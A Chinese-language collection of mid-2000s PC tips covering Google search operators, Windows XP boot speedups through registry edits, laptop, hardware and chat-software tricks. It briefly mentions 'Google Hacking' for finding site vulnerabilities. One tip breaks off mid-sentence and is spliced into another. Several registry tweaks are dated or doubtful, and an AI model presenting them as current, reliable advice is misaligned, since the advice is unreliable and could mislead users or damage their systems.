- ◆ Google 的“define”语法允许查找词语的定义，比如搜索[define:css]将得到“CSS 是英语 Cascading Style Sheets(层叠样式表)的缩写”之类的结果。这一语法的更为人性化的形式是使用“what is XXX”格式，比如搜索[what is css]。对于中文来说，可使用[什么是css]这样的搜索形式。
- ◆ Google 具有一定人工智能，可以按照你的简单提问或短语进行搜索。如搜索[when was Einstein born?](爱因斯坦的诞辰是哪一天?)或[einstein birthday](爱因斯坦的生日)等，将得到具体答案。

使用 Google 的“link”语法，可以搜索到包含某一特定链接的部分网页(不是所有)，比如搜索[link:www.cfan.com.cn]，将得到包含有“电脑爱好者”网站链接的网页。Google 的 Blog 搜索(search.blogger.com)也支持这一语法。
现在网上出现一种“Google Hacking”的活动，主要是一些好奇的人，通过输入特殊关键词或短语来寻找网站的安全漏洞。有一家名为“Google Hacking Database”的网站(http://johnny.ihackstuff.com/index.php?module=prodreviews)，专门列出了这些关键词。
Google 使用“+”号来表示“与”操作，当输入多个关键词时，它会搜索包含有所有关键词的网页，不过“+”号一般可以省略掉。如果执行“或”操作，可在关键词之间加上大写单词[OR]，也为可用[|](Shift+\键)来替代[OR]。比如搜索[哈姆雷特 (比萨 | 焦炭)]，将得到包含“哈姆雷特”，并含有“比萨”与“焦炭”两个关键词中任意一个的网页。注意，如果用的是“OR”操作符，在它的前后一定要加上空格。
通过高级搜索可以轻松获得 Google 的各类特殊用法。单击 Google“搜索”按钮右侧的“高级搜索”链接进入高级搜索模式，然后设置搜索的各种选项，执行搜索后再观察 Google 关键词输入窗口中的关键词的变化，即可将它的格式套用到以后的搜索中了。

- ◆ 不是所有的 Google 都是相同的，它依据你所在国家或地区的不同而使用不同语言的版本。比如搜索[site:stormfront.org]，在美国会得到成千上万的结果，而在德国(默认情况下会重定向到 Google.de)只能找到少得可怜的一些信息。各个国家或地区政府都有内容审查协议，这对 Google 的搜索结果会有一定的影响。
- ◆ 现在，Google不再有“被强制忽略的关键词”(stop words)了。以前，将英语中的“the”、“or”等作为关键词时，会被 Google 强制性忽略掉。但现在再搜索[to be or not to be]这类的短语，在 Google 返回结果中，还会列出有关完整短语的搜索结果。
- ◆ 在 Google 中搜索，可以像 DOS 命令一样使用通配符，这在搜索歌词时非常有用。如果记得歌词大意，但却忘了其中的一两个单词的话，就可以使用通配符来搜索，比如可以搜索["love you twice as much * oh love * *"]试试，看看得到什么样的结果。中文搜索同样支持这一功能，比如搜索《两只蝴蝶》中的一句歌词：[风中*会让你沉醉]，很快会得到“风中花香会让你沉醉”这样完整的歌词来。
- ◆ 如果想把搜索结果限制在大学网站，可以在关键词之后加上[site:.edu]，比如搜索[c-tutorial site:.edu]，这样就可以只搜索以“.edu”结尾的教育网站了。你也可以使用 Google Scholar(http://scholar.google.com/)来达到这个目的。同样方法，你可以只搜索某个特定国家的网站，比如加上[site:.cn]，将只搜索中国的网站(cn是中国域名标识)等。
- ◆ 如果输入网址www.googl.com，注意，这不是 Google 网站(中间少一个“e”)，它同样是一个搜索网站，但搜索结果与 Google 完全不同。这是一个典型的“typosquatter”网站(某些人专门申请的那些著名网站可能会拼错字母的域名)，就像用“金唐”来冒充“金庸”一样。

## 向纪录冲刺 —— 压缩 XP 启动时间

### 优化预读，轻松提速

在 Windows XP/2003 中新增了一项称为预读(Prefetcher)的技术，这是微软为提高系统性能而设计的一种后台数据预读机制，可以有效提高系统的启动速度和性能，但在这项功能的默认设置是非常保守的，我们可以通过修改注册表中相关的键值来调整预读方式。
点击“开始→运行”，在运行输入框中输入 regedit.exe 点击“确定”打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters]，在右侧窗格中将“EnablePrefetcher”的键值修改为所需预读方式对应的数字，以下是数字对应的预读方式表：

| 数字 | 预读方式 |
|------|----------|
| 0 | 关闭预读 |
| 1 | 只对应用程序进行预读 |
| 2 | 只对启动项进行预读 |
| 3 | 对应用程序和启动项都进行预读 |

对目前主流硬件配置的电脑来说，推荐使用3；而硬件配置较低的电脑，则推荐使用1；如果是好几年前的老电脑，连运行 XP 都勉强，那只能用0了。另外，在 C:\Windows\Prefetch 目录中的文件，也要定期清空一次(一般两个月左右)，因为我们系统中安装的程序和启动项都是变化的，过时的预读内容反而有可能拖慢启动速度。

# 让系统不再检测空IDE设备

Windows在启动时还会检测系统中存在的IDE设备（如硬盘、光驱等），把这段检测时间去掉，启动速度又能提高不少。右击桌面上的“我的电脑”选择“属性”，在弹出的“系统属性”窗口中选择“硬件”选项卡，然后点击“设备管理器”按钮，打开“设备管理器”后展开“IDE ATA/ATAPI控制器”，依次双击打开“主要IDE通道”和“次要IDE通道”的属性窗口，在“高级设置”选项卡中将不存在的设备的“传送模式”设置为“无”（默认为“自动检测”）。判断设备是否存在方法很简单，查看其“当前传送模式”，如果为“Ultra DMA Mode X”，则说明设备存在；如果为“不适用”，则不存在，重启后就能看到效果了。

# 去除杀软的开机自动扫描

很多杀毒软件在安装之后都会使开机速度变得很慢，这是由于它们都包含了开机时扫描启动文件的功能。就拿著名的卡巴斯基5.0专业版来举例吧！由于开机后Windows的启动加载项有可能成为病毒、木马的藏身地之一，所以卡巴斯基默认会在开机时对这些文件进行扫描，但实际上每次启动都会扫描有些浪费；平时自己已经经常手动扫描一下就行了。取消开机扫描的方法如下：依次打开“设置→手动扫描任务→扫描系统启动对象→属性→启动对象→设置→计划”，取消“启用计划扫描”的勾选。也有一些其他杀毒软件中具有启动扫描的选项，可参考其帮助文档取消此功能。

# 删除多余字体

微软号称Windows XP可以安装1000-1500种字体文件，可实际上系统中安装的字体一旦超过500种，在启动时速度就会慢得惊人。即使是专业美编，系统中也会有很多字体永远用不到，所以要加快启动速度可以从删除系统中多余的字体入手。
首先将Fonts目录压缩打包，以作为删除字体的备份，然后打开“控制面板”，双击打开其中的“字体”，只保留Arial、Marlett、Microsoft Scans Serif Regular、MingLiU & PMingLiU、Modern、MS Outlook、MS Serif 8,10,12,14,18,24、Script、SimSun & NsimSun、Tahoma、Times New Roman、宋体、仿宋、楷体、黑体，其他字体一律删除，在需要时我们再将它们从备份的压缩包中释放到字体目录中即可。另外，还可以让字体不占用系统盘空间，方法是将字体放在其他盘符的目录下，然后右键选中字体文件拖入字体目录中，在弹出菜单中选择“在当前位置创建快捷方式”即可。

# 搞定导致开机假死的网卡

有很多小区宽带用户都有这样的烦恼，在开机启动后，进入Windows的速度倒也不慢，可是显示桌面后却要等待好一段时间才会对键盘鼠标操作有所响应，在此之前都是处于一种假死状态。可是很少有人知道，问题竟然出在网卡的配置上。原来在每次启动时，网卡默认就会请求服务器分配IP地址，而实际上在进行虚拟拨号前是不会分配IP的，无响应就造成了长时间的等待。解决方法有2个：
- 采用路由共享上网：登录路由器管理界面，并启用路由器的DHCP功能，注意设置好可供分配的IP池。
- 采用虚拟拨号上网：右击“网上邻居”选择“属性”，在弹出的“网络连接”窗口中右击“本地连接”选择“属性”，在“常规”选项卡中双击“Internet协议（TCP/IP）”，在弹出窗口中将“自动获得IP地址”改为“使用下面的IP地址”，“IP地址”随意设置为某内网IP，如192.168.0.20，“子网掩码”为255.255.255.0，网关随意设置，比如192.168.0.1；下方的“自动获得DNS服务器地址”也手动修改成“使用下面的DNS服务器地址”，笔者填写的是202.106.0.20（北京ADSL的DNS）。保存设置后，重启系统进入桌面时再也不会出现假死状态了。

# 自动整理启动文件磁盘碎片

这是Windows XP新加的一项功能，与预读取功能配合使用正好是完美的组合。那就是启动时可以自动进行磁盘碎片整理，听了这个功能你可能会吓一大跳并且提出质疑，因为往往整理一次磁盘碎片都需要好几十分钟甚至几小时，如果每次开机都整理一下，那岂不是永远在等待中度过了。不过这里所指的磁盘碎片整理指的是那些启动所必须的文件，整理之后能使它们相邻排列，以便下次启动时能获得最快的启动速度。开启自动磁盘整理功能的方法如下：
运行regedit.exe打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Dfrg\BootOptimizefunction]分支，然后右击右侧窗格中的“Enable”选择“修改”，将键值改为Y（打开，反之则设为N关闭），修改完成后关闭“注册表编辑器”并重启电脑即可生效。

# 取消多余的映射网络驱动器

在局域网环境中经常会用到磁盘映射功能，最简单的例子比如在\cfan\movies下有很多电影文件可以看，而每次进入这个共享目录时都比较麻烦，就可以运行CMD打开“命令提示符”，在其中输入“net use z: \cfan\movies "password" /user:cfaner”回车，如果没有提示错误的话此时在“我的电脑”中就能看到Z盘了，打开便是共享电影的目录。这样虽然很方便，但是一旦设置的映射盘符多了；在启动联网时就会逐一检查映射驱动器的有效性，导致启动时间增加，因此还是建议删除掉不常用的网络驱动器，删除所有网络驱动器的命令是“net use /del *”。

# 笔记本也要玩得有技巧

刚拥有笔记本不久的你也许还操持着PC上的很多习惯在使用它，但是当你了解以下诸多笔记本的小技巧后，你会发现，它们将会为你的笔记本使用带来意想不到的便捷体验。

# 让笔记本尽情地休眠

笔记本电脑最大的优势就是能够使用电池移动工作，如果在较长时间内不用，最好将笔记本关掉，但是经常重新开机是一件非常麻烦的事。其实只要你在WinXP系统的“控制面板→电源→休眠”中将“启动休眠”选中，并在“高级→在合上便携式计算机时”选择“休眠”，这样当你把笔记本屏幕合上后，系统会自动休眠，举手之劳，却可以有效地节约电池的能量。当需要再次使用笔记本电脑的时候，只要打开显示屏，机器就会自动快速回到操作前的状态。在IBM ThinkPad笔记本上同时按“Fn”和“F12”键也可以进入休眠。

# 笔记本演示好帮手

笔记本电脑都有一个VGA的输出端口，用于外接显示器或投影仪，大大增强了笔记本电脑发表信息和演示的能力。特别值得一提的是笔记本的双屏显示功能，双屏显示功能允许在LCD和外接显示器或投影仪上同时显示不同的输出内容，两个显示设备可以分别独立调整显示的刷新率、分辨率和色彩深度，而且可以支持不同的应用。通过同时使用笔记本电脑LCD和外接监视器或投影仪的方式，就能扩展您的桌面空间，可以在不影响外接监视器或投影仪上演示的前提下通过笔记本电脑LCD查找数据或编辑文档，也可以将应用程序或窗口在LCD与CRT之间移动或拉伸，甚至可以通过监视器打开单个文档的多个页或查看同一个电子表格的多个列。ThinkPad笔记本的“Fn”和“F3”键配合使用可以实现这一功能。这对于需要经常使用笔记本电脑进行演示的用户来说非常实用。

# 快速查看电池老化程度

笔记本整体性能的高低与电池的优劣密不可分，电池的重要性也绝不亚于CPU、主板、硬盘等。对于部分名牌笔记本而言，我们甚至能通过相关软件来检测电池的充电次数。以IBM为例，安装Battery Information软件之后，可以从统计信息中的Cycle Count来得出结果，从中估计出电池的大致老化程度。

# 笔记本电脑系统崩溃不用愁

笔记本电脑都配有系统恢复光盘，在购买笔记本电脑的时候一定要将这张光盘收好。当系统因为病毒或误操作而崩溃时，它能起到很好的恢复作用。一般的台式机系统一旦崩溃，只能直接格式化，重装系统，费时费力。假如笔记本电脑的系统崩溃，只要先将BIOS程序里的引导驱动设置成光盘引导，然后重新启动机器，放入笔记本电脑随机奉送的系统恢复盘，在英文提示界面上选择重新覆盖操作系统就可以了。执行完上述操作，笔记本电脑便会自动运行恢复程序。虽然看不出有任何反应，但硬盘指示灯和光驱指示灯还会亮着，大约15~20分钟之后，笔记本电脑就会恢复到购机的初始状态。

# 莫让笔记本“偷懒”

新的笔记本都具有处理器自动降频的节电功能，但是使用不慎的话，这个功能或许就会让你的笔记本一直“偷懒”。在Windows操作系统中Intel均提供了调节的程序，在Windows9X和Windows ME中有Intel自己的公版控制软件，安装并且重启后你可以在控制面板的电源选项中设置不同供电环境下的SpeedStep状态。在Windows XP操作系统中，电源管理已经能直接支持SpeedStep功能，当放在“一直开着（Always On）”时则无论采用电池供电还是交流供电CPU运行频率都始终保持在最高，放在“最大电池（Max Battery）”的时候则使用电池的时候会降频到最低，一般厂商出厂的时候都是放在“便携/袖珍式（Protable/Laptop）”上，如果在此时用Windows XP的系统属性看，就会发现CPU频率其实只有降频后的频率，这个档其实就是自动调节的。

# 别让笔记本的宽屏影响你的游戏

因为宽屏笔记本默认会把分辨率较低的图像拉伸到满屏，这样就会产生变形，你可以在显卡的高级属性里面取消屏幕拉伸功能。有时候笔记本的BIOS里面也会有Screen Expention这样的选项，取消它也有同样的效果，但是以上两种方法会让屏幕两侧有黑边。这是因为现在大多数游戏不能支持宽屏的特殊分辨率所致，暂时没有更好的解决方法。

# 自由开关笔记本的液晶屏

如果笔记本电脑本身没有提供类似功能（比如IBM ThinkPad和Sharp有提供使用快捷键直接关闭屏幕功能），你就只能在电源管理中设置静置多长时间后屏幕自动关闭。通常，笔记本屏幕都没有单独的Power按钮，但都设有硬件开关，即Switch。有些机器即使没有外接显示器，也可以切换到仅使用外接显示器的状态，这时笔记本电脑的液晶屏就会自动关掉。当然这种方法其实是利用设计上的Bug，不是每一款机型都行得通，而且可能与一些应用程序和游戏有兼容性的问题。如果不想闭合屏幕又要立即关闭LCD，可以通过运行命令和一些小程序来实现，例如一款名为Softany Monitor Control的软件就可以让你自由开关屏幕。

# 密技E卡通

# 安全关机，免吃后悔药

现在不少键盘会有 Power 键，按下它可以快速关机；但不少朋友在工作中会误按它，导致数据意外丢失，其实在 Windows XP 中很容易解决此问题：在桌面空白处右击并选择“属性”，再从弹出的“显示属性”窗口中选择“屏幕保护程序”选项卡，然后单击下方的“电源”按钮。从弹出的“电源选项属性”窗口中选择“高级”标签，把下方的“在按下计算机电源按钮时”中的选项由原来默认的“关机”更改为“问我要做什么”，确定即可。这样以后在工作中万一不幸碰到了 Power 键的话，系统就会弹出“关闭计算机”窗口，包含“待机”、“关闭”、“重新启动”三个按钮供选择，点击其下的“取消”键可以关闭该窗口，误按了 Power 键后就不用后悔莫及了。

# 让 Windows XP SP2 屏蔽长点记性

Windows XP SP2 增加了对弹出窗口的屏蔽功能，我们可以对某些站点设置允许或阻止其弹出窗口；但重装系统后一切又得重新开始。而且如果想将自己的设置分享给好友，Windows 也没有提供相关功能。其实运行“CMD”命令打开命令提示符窗口，执行“REG EXPORT "HKCU\Software\Microsoft\Internet Explorer\New Windows" blocker.reg”命令（不包含外侧中文引号），当前目录中会生成一个名为 blocker.reg 的注册表文件，其中保存了 IE 对弹出窗口管理的所有设置，将其保存起来或者发送给好友。要恢复设置时，只需在命令提示符窗口中进入 blocker.reg 所在目录，执行“REG IMPORT blocker.reg”命令即可。

**小提示** 如果在此基础上还想添加别的站点到“允许其弹出窗口”，只需要执行形如 `“REG ADD "HKCU\Software\Microsoft\Internet Explorer\New Windows\Allow" /V "www.cfan.com.cn" /T REG_BINARY /F”` 的命令即可。

# 删除“打印机和传真”

Windows XP 对开始菜单中的程序和附件等的右键菜单中都提供了“删除”命令，但“控制面板”、“网络连接”等菜单却不能删除，尤其是“打印机和传真”，这对很多用户来说没什么用，如何将其从开始菜单中移除呢？运行“CMD”打开命令提示符界面，输入以下命令：

```
REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /V Start_ShowPrinters /T REG_DWORD /F /D 0
```

然后重新启动计算机或者注销重登录用户即可。

# 终止顽固的 matlab 进程

学工程的朋友，电脑中一般都要装 matlab 仿真软件，它的功能非常的强大。不过安装了这款软件后，它还在系统中有两个进程：matlab 和 MATLAB Server，随着电脑的启动而启动，占用资源约有 20MB。对于一些配置比较低的电脑用户，这时就非常想终止它们了。

可是它们无法用手工终止，我们可以用如下方法解决：打开“控制面板”，选择“服务”，然后在弹出窗口右侧服务列表中，找到“MATLAB Server”服务，双击后，在“常规”选项卡中把它的启动类型设置为“手动”，重启电脑后，那两个进程就不会出现，matlab 也可以正常使用。

# 更方便地撤销快捷键

文字编辑时，经常要使用“Ctrl+Z”快捷键撤销前面的操作，但是对话框中的输入操作却无法撤销，比如在 Word 的查找替换对话框中，就不能使用“Ctrl+Z”进行撤销了。

其实，在 Windows 中还有另外一组撤销快捷键“Alt+Backspace（退格键）”，不仅具有与“Ctrl+Z”完全一样的撤销功能，还能撤销 Windows 对话框中输入框内的输入编辑操作，甚至对文件重命名时出现的误操作也同样有效。但可撤销的操作步数，因对话框所属程序不同而有所不同。

# 开启 Athlon 64 的 CnQ 节电功能

Athlon 64 的 Cool 'n' Quiet 简称为 CnQ 技术，这项技术能根据处理器所执行的运算工作改变工作频率和工作电压，使处理器发热量和功率都大为降低，除此以外，它还能根据主板上测温器件的报告自动调速散热器达到静音工作的效果。

要实现这一功能，必须具备以下条件：采用了 AMD 64Bit 技术的 754、939 系列处理器都可支持该技术；在支持 CnQ 的主板上，首先需要在 BIOS 设置中会提供一个 CnQ 和 ACPI 2.0 支持的相关选项，将它设置为有效（Enabled）；给 Athlon 64 处理器更新驱动程序，重启后在控制面板的电源选项中，选择合适的电源使用方案即可。

# 主板红外口快速安装与设置

首先要安装好红外线连接器，连接红外接口连接器和主板红外接口时要注意 5 针插口的方向，方向插反可能会导致主板接口损坏。接着，进入 BIOS 设置程序，在 INTEGRATED PERIPHERALS 子菜单中，将 Onboard IrDa Port 或相关选项设置成 Enable，UART2 Use Infrared 项设置为 IrDA，一般是将主板的 COM2 设置为红外线传输接口。在有关红外线传输模式 UART Mode Select 中，如果选 HPSIR，只能通过标准的速度 115.2Kbps 传输数据，选 ASKIR 就能享受红外线的最高速度 4Mbps。HPSIR 建议在不能通过 4Mbps 相连接时才选用。安装成功后，双击“我的电脑”，你会发现多出一个“红外线接收者”的图标。进入“控制面板”后，可以通过新增的“红外线”选项来修改它的状态。再进入“网络”，你又会发现多安装了一个“红外线端口”和“快速红外线协议”。这些都表明，你的红外线收发器已正常安装。

# 液晶显示器需要你特别呵护

首先是刷新率，和 CRT 显示器不同的是越小越好，调高了反而会影响画面质量，一般设为 60 赫兹最好。在使用过程中还要尽量避免长时间的画面静止，因为如果连续长时间显示一种固定图像，显示器热量就会不断增加，这和它的液晶控制透光度技术有很大关系，当画面静止时，液晶也是保持不变的，因此时间过长之后就会产生很大热量，对液晶显示器本身的寿命也不好，所以建议使用屏幕保护程序来保护液晶屏幕。另外，不要让显示器亮度太高，调整到合适亮度就不要轻易改动。如果液晶屏幕脏了，切忌使用湿布擦拭，这是很容易破坏液晶显示器的，如果屏幕内部零件受潮可能会导致短路，正确的做法是用软布粘上清洁剂轻轻地擦拭屏幕。看来和 CRT 显示器相比，LCD 显示器略显娇气。在使用过程中，要尽量避免对 LCD 显示器的硬性冲击，液晶屏幕内的电路和元器件都非常脆弱。

# 快速诊治显卡花屏

显卡花屏是比较常见的显示故障，假如一开机就花屏则先检查显卡散热问题，用手摸一下显存芯片温度，检查显卡风扇是否停转。再看看主板 AGP 插槽里是否有灰，检查显卡金手指是否被氧化，然后根据具体情况清理灰尘，用橡皮擦擦金手指，把氧化部分擦亮。假如散热有问题就换个风扇或在显存上加装散热片。或者进入 BIOS，看看 AGP 电压是否稳定在 1.5V 附近。

假如是玩游戏，或做 3D 图形处理操作时才花屏，在排除掉散热问题后，可以先尝试着换一个版本的显卡驱动，因为有可能是显卡驱动与程序本身不兼容的原因或驱动存在 BUG 造成的。如果经过以上方法后显卡还是花屏，则可以尝试着刷新显卡 BIOS。当然假如你的显卡在保修期内，在排除软件问题后还是尽快送修为好。

# 权限也能完美克隆

微软的权限规则中规定：在 NTFS 分区间复制文件或文件夹时，文件或文件夹将继承目标文件夹权限，也就是说原有权限设置丢失了。在将需要保密的敏感数据移动到别的盘符时，就不得不重新设置权限。有没有方法跳过这一步骤，让 NTFS 分区间的文件移动也能保留原有的权限呢？

打开“注册表编辑器”，找到[H K C U \ SOFTWARE\Microsoft\Windows\CurrentVersion \ Policies\Explorer]，在右侧窗格创建一个名为“ForceCopyAclwithFile”（不含引号）的 DWORD 值，其键值设置为 1，然后退出“注册表编辑器”，重启系统后即可生效。

不过此方法仅适用于同一系统的两个 NTFS 分区，如果在两台电脑间进行文件复制，比如公司文件服务器要将其中的共享文件迁移到新服务器，由于很多文件或文件夹的权限是由用户自己定义的，有些文件就连管理员都无权访问，这样就无法直接进行复制，手动更改大批文件权限的工作量非常大。针对此情况可以利用 Windows 中自带的备份工具，首先通过系统备份工具将数据备份，这个备份操作是不受 NTFS 权限限制的，然后将备份的数据复制到新的机器并将其还原，这样不仅解决了不能直接复制文件的问题，而且所有的权限也保留了下来。

# 右键获得程序帮助

大多数命令行应用程序都用参数“/?”来显示其用法帮助，每当下载了新的命令行程 序时，都需要打开“命令提示符”，进入程序所在目录，使用“程序名 /?”比较麻烦。现在有个简单的方法：

打开“记事本”，输入以下内容并保存为 schelp.reg，双击导入注册表。

```
REGEDIT4

[HKEY_CLASSES_ROOT\exefile\shell\?\command]
@="CMD /K "%1" %* /?"
```

这样在右击 EXE 文件后，就会出现一个菜单项“/?”，选择后会弹出一个“命令提示符”窗口并显示该 EXE 文件的帮助。另外，你也可以将 schelp.reg 中的“exefile”改为“batfile”或者“cmdfile”，就能使右键帮助功能应用于 BAT 和 CMD 文件了。

# 一条命令彻底修复 IE

IE 作为 Windows 中使用频率最高的软件，时不时得点小病，来两次罢工就够折腾着我们够呛，以往解决 IE 莫名其妙故障的手段无非是重新安装一遍 IE，这虽然有效但颇有点小题大做，现在在 Windows XP Service Pack 2 中如果发现你的 IE 出现故障不妨试着“运行”一下这个命令：“"%ProgramFiles%\Internet Explorer\iexplore.exe" /rereg”（不含外双引号，内双引号不可少），它可以帮助你重新注册 IE 的所有组件，帮你彻底修复瘫痪的 IE，不过不适用于 Windows 其他版本。

# 修改被损坏的 Word

如果有一天，你打开 Word 发现什么都没了，就只留下了空白的编辑区该怎么办？你不会认为是被隐藏掉了吧。我试过了网上提供的 N 多种方法，都以失败告终，不过最终还是在微软提供的 MSDN 中查到了，其实只要在命令行下输入“winword.exe /a”即可，如果没有设置默认路径，就必须把路径输入完整，否则将不能执行。然后再打开 Word，是不是菜单和工具栏都回来了？

# 让 Excel 单元格自动调整字号

在使用 Excel 的输入数据过程中，单元格## CMOS 故障处理办法

在开机自检时如果总是出现 “CMOS checksum error-Defaults loaded” 的提示，而且必须按 F1，Load BIOS default 才能正常开机。通常发生这种状况都是因为主板上给 CMOS 供电的电池没电了，首先换电池，对于 ATX 结构的系统，不关外部供电也可以替换。如果更换电池后依然存在问题，那就有可能是 CMOS RAM 有问题，建议送回原厂处理。

开机后提示 “CMOS Battery State Low”，有时可以启动，使用一段时间后死机，这种现象大多是 CMOS 供电不足引起的。对于不同的 CMOS 供电方式，采取不同的措施：
- 焊接式电池：用电烙铁重新焊上一颗新电池即可。
- 纽扣式电池：直接更换。
- 芯片式：如果更换电池后时间不长又出现同样现象的话，很可能是主板漏电，可检查主板上的二极管或电容是否损坏。

## nForce2 主板上 USB2.0 的使用技巧

要在 nForce2 主板上使用 USB2.0 的用户可能会遇到不少问题。虽然 WinXP 的 SP1 中自带 USB2.0 驱动，但在实际应用中存在兼容性问题，表现为从 PC 传输大容量文件到 USB 设备时出错，并且移动盘符消失，要重新插拔 USB 连线才可以继续使用。我们可以到各个 nForce2 主板厂商中下载一个特殊的 USB2.0 驱动（不同厂商的驱动往往可以互相使用），然后在控制面板中更新驱动，自己指定驱动程序位置，选定后会提示该驱动没通过微软认证，强制安装。然后在 “设备管理中” 找到移动硬盘，右键单击 “属性→策略”，把 “快速删除优化” 改为 “为优化性能优化” 后，问题解决。

## 零磁道损坏硬盘的修理

对于零磁道损坏硬盘的修理，找一台内置硬盘与待修硬盘型号规格完全相同且装有 Norton8.0 版软件的电脑，将待修硬盘与硬盘电源线相连接，但硬盘信号线不接，跳线不变。开机后运行 NU 中的 Disk Edit 软件，从菜单 “Tools” 中点取 “CONFIGURATION” 项，将 “Read Only” 项取消；从下拉菜单 “Object” 中选取 “Driver” 项，将 Hard Disk 类型设置为 Physical Disk，点击 OK 项确定；从 Object 菜单中选取 “Partition Table” 项，将接在完好硬盘上的信号线拔下，接到待修硬盘上，点击 OK 项确定；选择 “Hard Disk1” 点击 OK 项确定，再从 “Write Object to Physical Sectors” 对话框中将 Cylinder、Side、Sector 分别设置成 1、0、1 点击 OK 项确定。当出现 “Warning” 对话框时选 Yes 项。退出 Norton 软件，重新启动计算机，在 BIOS 设置硬盘自动检测一栏中可以看到，CYLS 数值减少了 1 个。如原来 CYLS 为 2112，则变为 2111。说明原硬盘分区表是从 C 盘的 0 柱面开始，现从 1 柱面开始。保存 BIOS 设置后退出。重新分区、格式化后硬盘恢复正常。另有一些硬盘，自检时提示 “HDD Controller Error”。采用以上方法处理无效，只能报废。

## 解决 VGA 插头上的隐患

显示卡上的 VGA 插头在多次插拔以后可能会导致针孔中的簧片变松，使得其不能和显示器的信号线公头良好接触；还有就是对显示器信号线的暴力拉扯，也可能导致 VGA 插头信号传输问题。解决办法：碰到 VGA 插头内部簧片松动的情况，可以使用焊锡把显示器信号线公头上的针脚加粗，让松动的簧片重新和显示器信号线紧密接触。对于检查中出现问题的 VGA 针脚，可以顺着 VGA 插头找到 PCB 板上的对应焊点，发现断路，重新补焊就可以了。对于普通用户，建议送修。

## 别害了我的移动硬盘

当系统感染病毒后，如果还需要使用移动存储设备，比如移动硬盘，就很有可能导致这些设备也被感染上病毒。我们通过一些专用的工具软件可以实现对 USB 存储设备的只读控制，不过如果你已经升级到 Windows XP SP2，不用任何工具，也能实现这个功能，让所有 USB 设备只能读取而不能写入数据。首先打开 “注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\StorageDevicePolicies] 主键，然后在右边新建一个名为 “WriteProtect” 的 DWORD 类型键值，并将键值数据设置为 “1”，以后当你向 USB 存储设备写入数据时，系统会提示 “介质受写入保护”，这样就不用担心 USB 设备中保存的重要数据被误操作破坏了。要想取消 USB 设备的只读限制，将 “WriteProtect” 键值设置为 “0” 或者直接删除即可。

## 禁止使用 “我的电脑→属性”

在桌面的 “我的电脑” 右键选择 “属性”，或者依次选择 “控制面板→系统” 都可以打开 “系统属性” 设置，在这里可以进行相关系统参数的修改。在设置完所有参数后，通常不希望别人随意修改，可以将这个 “系统属性” 禁止了。

打开 “记事本”，输入以下内容，另存为 A.reg，然后双击合并到注册表中即可（如果是 Windows 98 则将第一行修改为 “REGEDIT4”）。

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\explorer]
"NoPropertiesMyComputer"=dword:00000001
```

如果要恢复系统属性，则将 NoPropertiesMyComputer 的键值改为 0 或删除即可。

## ACT 文件巧转 MP3 文件

有不少 MP3 随身听录音时所用的是 ACT 格式，很多朋友都不知道怎么将这些 ACT 文件转换为 MP3 文件，其实，只要一个软件就能解决。

- 第一步：从 http://www.newhua.com/cfan/200514/acttowav.rar 下载 Act2Wav。
- 第二步：打开软件主界面，点击 “打开”，选择 ACT 文件，然后再点击 “另存为” 按钮，设置好保存路径及文件名，就可以点击 “开始”，将文件保存为 WAV 格式了。
- 第三步：使用任意音频转换软件，如 LameGUI(下载地址 http://nj.onlinedown.net/soft/5326.htm)将输出的 WAV 文件转换为 MP3 文件即可。

## 直接复制好听的歌曲到 MP3 中

如果使用的播放器是千千静听，当听到有好听的歌曲，想把它们复制到 MP3 随身听中时，可用如下方法快速完成复制：先把 MP3 随身听接到电脑上，打开 “资源管理器”，并定位至 MP3 随身听所在分区。从千千静听列表中，选择要复制的歌曲（配合 Ctrl 或 Shift 键可多选），直接拖拽到 “资源管理器” 中即可。

## Excel 中表头巧锁定

在编辑较长或较宽的 Excel 工作表时，如果向下或向右移动表格，表头也会随之移动，这时，最好将表头锁定：要锁定表头，需要先选中单元格，然后点击菜单中的 “窗口→冻结窗口”，这样，单元格左侧及上侧的行列均作为表头被锁定。比如选中 A2 单元格，则行 1 全部锁定；选中单元格 B1，则 A 列被锁定；选择 B2 单元格，则 A 列及 1 行全部锁定。

## 批量设置 “隐身时对好友可见”

在 QQ 中，我们有时会处于隐身状态，但又希望自己的部分好友能够看到自己在线。于是 QQ 对其会员用户提供了一个 “在隐身状态下对该好友可见” 的实用功能。不过该功能有两个弊端：一来需要你是 QQ 会员，二来它并没有提供批量设置的功能，如果需要设置的好友太多，实在有些浪费时间。

我们可以用 Tencent Messenger 登录自己的 QQ 号码，不管你是不是会员，TM 都提供了该功能，并且可以批量设置：在 TM 面板上右键单击某个好友分组，选择 “隐身状态下对该组可见” 菜单，TM 会提示 “该组用户较多，设置需要较长时间，是否进行设置？”，我们选择 “是”，稍等即可完成设置。设置完毕后切换到 QQ 可以继续享受这一 “高级待遇”。

## 让 MSN 也能随意抓图

MSN 跟 QQ 一样是种很好用的即时通讯软件，可是在抓图方面没有 QQ 那么方便，不过我们可以通过安装 SnagIT 7.1 这款软件来解决这个问题，具体的方法如下。

首先登录 MSN，接着启动 SnagIT 并开始抓图。在随后弹出的 “SnagIT 捕获预览” 窗口中，单击工具栏上的 “用即时聊天程序发送捕获内容” 按钮。这时会弹出 “选择联系人” 对话框，从中选择你要发送的联系人就可以了。

## UC 变身录音机

我们都知道 Windows 系统中自带有录音工具，可以方便地录下各种声音。但该工具有个不足之处，就是录音有时间限制。其实，如果你使用 UC 这款聊天软件，就可以利用它内置的一个插件来给我们录音，并且录音没有时间的限制。

首先打开 UC 软件，在 UC 面板中依次单击 “UC 菜单→UC 邮箱→我的邮箱”，接着单击工具栏上的 “写邮件” 按钮，这时会弹出一个邮件撰写窗口，单击工具栏上的 “录音” 按钮，打开 “插入录音” 窗口，最后单击 “录音” 按钮就可以开始录音了。

## 谁从 MSN Messenger 中删除了你

